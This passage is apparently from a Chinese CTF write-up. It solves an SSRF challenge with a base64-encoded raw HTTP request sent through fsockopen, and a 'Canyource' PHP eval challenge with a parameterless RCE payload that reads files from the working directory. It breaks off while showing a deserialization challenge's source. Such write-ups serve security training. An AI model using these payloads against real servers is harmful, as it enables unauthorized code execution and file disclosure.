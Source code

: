 fsockopen 发送原始 tcp 数据包

flag.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051911698.png)

手写一个 http 数据包

```
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Connection: close

```

```
index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBjbG9zZQ0KDQo%3d
```

请求的时候会卡很久才出结果, 不知道什么原因...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051914844.png)

### Canyource

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['code'])&&!preg_match('/url|show|high|na|info|dec|oct|pi|log|data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['code'])){
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);}
else
    die('nonono');}
else
    echo('please input code');
?>
```

这个正则一看就是无参数 rce

```
http://43.143.7.97:28972/?code=readfile(next(array_reverse(scandir(getcwd()))));
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051916825.png)


### easy_unser

```php
<?php 
    include 'f14g.php';
    error_reporting(0);

    highlight_file(__FILE__);

    class body{

    private $want,$todonothing = "i can't get you want,But you can tell me before I wake up and change my mind";

    public function  __construct($want){
        $About_me = "When the object is created,I will be called";
        if($want !== " ") $this->want = $want;
        else $this->want = $this->todonothing;
    }
    function __wakeup(){
```